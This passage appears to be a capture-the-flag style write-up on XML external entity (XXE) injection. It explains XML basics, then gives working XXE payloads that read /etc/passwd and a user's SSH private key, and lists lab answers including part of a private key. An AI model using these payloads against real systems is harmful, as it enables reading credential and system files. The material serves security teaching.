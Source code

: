 <?xml version="1.0" encoding="UTF-8"?>
<mail>
   <to>falcon</to>
   <from>feast</from>
   <subject>About XXE</subject>
   <text>Teach about XXE</text>
</mail>


In the above example the <mail> is the ROOT element of that document and <to>, <from>, 
<subject>, <text> are the children elements. If the XML document doesn't have any root 
element then it would be considered `wrong` or `invalid` XML doc.

Another thing to remember is that XML is a case sensitive language. If a tag starts like 
<to> then it has to end by </to> and not by something like </To>(notice the capitalization 
of T)

Like HTML we can use attributes in XML too. The syntax for having attributes is also very 
similar to HTML. For example:
<text category = "message">You need to learn about XXE</text>

In the above example category is the attribute name and message is the attribute value.

### XXE Payload

read /etc/passwd:
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

read users ssh keys:
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/*username*/.ssh/id_rsa'>]>
<root>&read;</root>
```

### XXE Practical

What is the name of the user in /etc/passwd?
- falcon

Where is falcon's SSH key located?
- /home/falcon/.ssh/id_rsa

What are the first 18 characters for falcon's private key
- MIIEogIBAAKCAQEA7b

## Severity 5

### Broken Access Control

A regular visitor being able to access protected pages, can lead to the following:
